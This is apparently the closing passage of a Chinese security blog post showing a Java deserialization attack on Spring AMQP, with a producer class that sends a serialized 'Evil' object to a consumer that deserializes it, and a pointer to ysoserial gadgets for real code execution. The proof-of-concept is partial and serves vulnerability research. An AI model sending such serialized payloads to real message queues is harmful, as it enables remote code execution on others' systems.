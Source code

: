 	import java.io.*;

	public class Producer {

    public static void main(String[] args) {
      ApplicationContext context = new AnnotationConfigApplicationContext(HelloWorldConfiguration.class);
      AmqpTemplate amqpTemplate = context.getBean(AmqpTemplate.class);

        try {
            //amqpTemplate.convertSendAndReceive("exchange", "routingkey", getMessage());
            amqpTemplate.convertAndSend(getMessage());
        } catch (IOException e) {
            e.printStackTrace();
        }
        //amqpTemplate.convertAndSend("Hello World");
      System.out.println("Sent: Hello World");
    }

    public static Message getMessage() throws IOException {
        MessageProperties messageProperties = new MessageProperties();
        messageProperties.setContentType("application/x-java-serialized-object");
        Message message = new Message(getbBody(), messageProperties);
        return message;
    }

    public static byte[] getbBody() throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        Evil evil = new Evil();
        oos.writeObject(evil);
        byte[] str = baos.toByteArray();
        return str;

    }

	}

消费者

	package test;
	import org.springframework.amqp.core.AmqpTemplate;
	import org.springframework.context.ApplicationContext;
	import org.springframework.context.annotation.AnnotationConfigApplicationContext;
	
	public class Consumer {
	
	   public static void main(String[] args) {
	      ApplicationContext context = new AnnotationConfigApplicationContext(HelloWorldConfiguration.class);
	      AmqpTemplate amqpTemplate = context.getBean(AmqpTemplate.class);
	      System.out.println("Received: " + amqpTemplate.receiveAndConvert());
	   }
	
	}

当然Evil不是默认存在的class，要想真正的执行，可以参考ysoserial里面的Gadgets，这系列文章之前写了很多，大家可以自己去调试一下。
最后补一张利用成功的图
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-11/87868417.jpg)
##  参考链接
